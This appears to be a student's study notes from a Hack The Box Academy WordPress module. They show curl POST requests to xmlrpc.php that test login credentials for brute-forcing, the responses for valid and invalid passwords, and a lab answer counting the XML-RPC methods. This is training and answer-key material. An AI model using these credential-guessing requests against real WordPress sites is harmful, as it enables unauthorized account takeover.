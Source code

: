 ```yaml
---
sticker: emoji//1f43c
---
```

Once we are armed with a list of valid users, we can mount a password brute-forcing attack to attempt to gain access to the WordPress backend. This attack can be performed via the login page or the `xmlrpc.php` page.

If our POST request against `xmlrpc.php` contains valid credentials, we will receive the following output:

#### cURL - POST Request


```shell-session
smoothment@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

If the credentials are not valid, we will receive a `403 faultCode` error.

#### Invalid Credentials - 403 Forbidden

```shell-session
smoothment@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>asdasd</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Incorrect username or password.</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```

These last few sections introduced several methods for performing manual enumeration against a WordPress instance. It is essential to understand manual methods before attempting to use automated tools. While automated tools greatly speed up the penetration testing process, it is our responsibility to understand their impact on the systems we are assessing. A solid understanding of manual enumeration methods will also assist with troubleshooting should any automated tools not function properly or provide unexpected output.


# Question
---
![](cybersecurity/images/Pasted%2520image%252020250220133306.png)

We can use this:

```
curl -s -X POST http://94.237.53.112:46761/xmlrpc.php -d '<?xml version="1.0"?><methodCall><methodName>system.listMethods</methodName></methodCall>' | grep -o '<string>.*</string>' | wc -l
```

The command greps for `<string>` and counts, we get this output:

```
curl -s -X POST http://94.237.53.112:46761/xmlrpc.php -d '<?xml version="1.0"?><methodCall><methodName>system.listMethods</methodName></methodCall>' | grep -o '<string>.*</string>' | wc -l

80
```

Answer is:

```
80
```